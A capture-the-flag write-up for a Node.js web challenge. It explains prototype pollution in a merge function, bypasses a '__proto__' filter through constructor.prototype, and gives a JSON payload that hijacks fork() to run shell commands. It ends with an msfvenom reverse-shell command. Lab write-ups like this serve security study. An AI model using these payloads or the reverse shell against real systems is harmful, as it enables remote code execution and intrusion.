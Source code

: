 ##### Web - Medium

#### Description:
```
You and your buddy corrected the math in your physics teacher's paper on the decay of highly excited massive string states in the footnote of a renowned publication. He's just failed your thesis out of spite, for making a fool out of him in the university's research symposium. Now you can't graduate, unless you can do something about it... 🤷
```


- Upon entering the URL, a simple web page is provided.  

	![Portal](images/main_page.png)
- The user can choose between two names and press the "Did I pass?" button. Regardless of the user choice, the result is the same :) 
	![](images/pass.png)

- Let's intercept the request in Burp:

	![](images/burp_calculate_request.png)

- Nothing worth noting so far. It's time to look at the provided source code:

```js
router.get('/debug/:action', (req, res) => {
	return DebugHelper.execute(res, req.params.action);
});

router.post('/api/calculate', (req, res) => {
	let student = ObjectHelper.clone(req.body);
	
	if (StudentHelper.isDumb(student.name) || !StudentHelper.hasBase(student.paper)) {
	return res.send({
	'pass': 'n' + randomize('?', 10, {chars: 'o0'}) + 'pe'
	});
	}

	return res.send({
	'pass': 'Passed'
	});
});
```

- Having a look at the DebugHelper.js file:
```js
execute(res, command) {
	res.type('txt');
	if (command == 'version') {

		let proc = fork('VersionCheck.js', [], {
			stdio: ['ignore', 'pipe', 'pipe', 'ipc']
		});
	proc.stderr.pipe(res);
	proc.stdout.pipe(res);
	return;
	}

	if (command == 'ram') {
		return res.send(execSync('free -m').toString());
	}

	return res.send('invalid command');
}
```

- The execute command accepts two parameters, **ram** or **version**. Ram acts as a free function, but when executed, it reveals that the command is not even installed on the remote server `:laughing:`.
- The version param creates a child process that executes `VersionCheck.js` and pipes stdout and stderr to the parent process'.  
- We gain valuable information, such as the Node JS version that is used. Granted this is simulating a **"white box assessment"**, it is of no real value, since we could've just checked package.json, but from a black box perspective, this information can be vital.  :)
- This could also be a hint that a vulnerable node version is the entry point of this challenge, since the verison is so old (Node v12, comparted to the current v18 as of writing this `29/06/2023` )

- The `ObjectHelper.js` file is where the vulnerability resides: 
```js
module.exports = {
	isObject(obj) {
	return typeof obj === 'function' || typeof obj === 'object';
	},

	isValidKey(key) {
	return key !== '__proto__';
	},

	merge(target, source) {
		for (let key in source) {
			if (this.isValidKey(key)){
				if (this.isObject(target[key]) && this.isObject(source[key])) {
					this.merge(target[key], source[key]);
				} else {
				target[key] = source[key];
				}
			}
		}
		return target;
},
	clone(target) {
	return this.merge({}, target);
	}
	
}
```

- Evident prototype pollution here. If you are unfamiliar with proto pollution, I highly recommend this article from the Port Swigger Web Academy : https://portswigger.net/web-security/prototype-pollution, they go in-depth on this topic. 
 
- TLDR: In JavaScript, objects are created from prototypes, which serve as templates or blueprints for defining object properties and methods. Each object has an internal reference to its prototype, accessible through the `__proto__` attribute. By modifying this attribute, an attacker can introduce new properties or modify existing ones in the target object, even if it was not originally intended.

- Here's a great diagram provided by Snyk:

  	![Great diagram provided by Snyk](images/Prototype_pollution_Attack.svg)

- In our case, there is one catch: the server makes a validation that a key must be different from `__proto__` . Following this article from HackTricks (https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution), we get the following info:

	![](images/keyword_bypass.png)

- So even if `__proto__` is blacklisted, we can just use `object.constructor.prototype`. There are a few differences between the two: 
	- `myobject.constructor.prototype` will only affect objects created from the `myobject` type. 

- The application builds new objects directly from the information provided in the request body, so the effect will be the same as if `__proto__` is used: 
	```js
	let student = ObjectHelper.clone(req.body);
	```

- Now we need to look for a pollution gadget. We saw that the application used `fork()` in the `<URL>/debug/version` endpoint. Using online resources, we can find how to exploit it:
https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce

 ![](images/fork_pollution.png)

- Trying this in burp:
![](images/try_1.png)

- Payload:
```json
{
   "name":"Kenny Baker",
   "constructor":{
      "prototype":{
         "execPath":"/bin/sh",
         "argv0":"/bin/sh",
         "execArgv":[
            "-c",
            "ls"
         ]
      }
   }
}
```

- Access the `/debug/version` endpoint to trigger the pollution:
![](images/try_2.png)

- From here, just spawn a reverse shell.
```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw -o shell.sh
```

